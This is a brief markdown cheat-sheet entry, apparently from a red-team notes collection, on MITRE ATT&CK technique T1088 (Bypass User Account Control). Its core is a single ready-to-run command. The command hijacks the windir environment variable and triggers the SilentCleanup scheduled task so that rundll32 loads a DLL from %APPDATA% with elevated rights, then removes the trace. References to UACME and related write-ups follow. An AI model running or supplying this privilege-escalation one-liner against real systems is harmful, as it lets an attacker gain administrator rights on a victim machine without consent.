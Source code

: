 # Bypass User Account Control

---
* **ID**: T1088
* **Source**: <https://attack.mitre.org/techniques/T1088/>
---

# Details

## Exploiting Environment Variables in Schedule Tasks for User Account Control (UAC) Bypass

```
reg add HKCU\Environment /v windir /d "rundll32 %APPDATA%\temp.txt,DllMain " /f&schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I & reg delete HKCU\Environment /v windir /f
```

# References

* <https://github.com/hfiref0x/UACME>
* <https://tyranidslair.blogspot.com/2017/05/exploiting-environment-variables-in.html>
* <https://www.puckiestyle.nl/c-simple-reverse-shell/>
